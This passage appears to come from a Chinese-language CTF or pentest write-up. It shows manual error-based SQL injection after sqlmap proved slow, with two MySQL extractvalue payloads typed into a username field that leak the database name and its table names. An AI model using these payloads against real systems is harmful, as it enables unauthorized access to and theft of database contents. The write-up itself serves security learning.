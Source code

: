 ![](./images/image-138.png)

由于Sqlmap实在跑的是太慢了，因为有报错信息，顺手就测了一下，发现能直接报错注入

```
admin' and extractvalue(1,concat('~',database()))#
```

![](./images/image-139.png)

```
admin' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())))#
```
